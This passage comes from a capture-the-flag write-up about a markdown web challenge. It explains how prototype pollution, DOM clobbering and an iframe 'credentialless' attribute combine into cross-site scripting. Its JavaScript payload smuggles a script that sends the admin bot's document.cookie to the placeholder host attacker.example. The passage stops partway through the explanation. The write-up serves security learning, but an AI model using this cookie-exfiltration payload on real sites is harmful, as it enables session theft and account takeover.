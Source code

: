 ### Step 2: iframe's `credentialless` Trick

Considering Step 1, you might think that reporting a URL like the one below would achieve XSS:
```javascript
const CONNECTBACK_URL = "https://attacker.example";

const markdown = `
</textarea>
<iframe name=currentScript src="/?__proto__[tagName]=SCRIPT&__proto__[src]=data:,location='${CONNECTBACK_URL}/'%2bdocument.cookie//"></iframe>
<link rel=stylesheet href=/0>
<link rel=stylesheet href=/1>
<link rel=stylesheet href=/2>
<link rel=stylesheet href=/3>
<link rel=stylesheet href=/4>
<link rel=stylesheet href=/5>
<link rel=stylesheet href=/6>
<textarea>
`.trim();

const url = `http://alpaca-mark:3000?${new URLSearchParams({ markdown })}`;
console.log(url);
// Report this URL to the admin bot.
```

However, there's another hurdle in this challenge.

```javascript title="client/index.js"
const markdown =
  localStorage.getItem("markdown") ??
  (await import("can-deparam").then(
    ({ default: deparam }) => deparam(location.search.slice(1)).markdown ?? ""
  ));
localStorage.setItem("markdown", markdown);
```

This web service behaves as follows:

- On the first visit:
    1. Parses the URL query using the `can-deparam` library.
    1. Retrieves the value of the `markdown` query parameter.
    1. Saves it to `localStorage`.
- On subsequent visits:
    1. Retrieves the `markdown` value from `localStorage`.

Since `can-deparam` is not used on subsequent visits, Prototype Pollution won't occur. This means that with the DOM Clobbering payload above, properties cannot be polluted inside the iframe.

Is there a way to enable Prototype Pollution inside the iframe?

Yes, the iframe's `credentialless` attribute comes to the rescue! This attribute isolates the iframe's `localStorage` from the parent document's `localStorage`.

:::info
HTMLIFrameElement: credentialless property
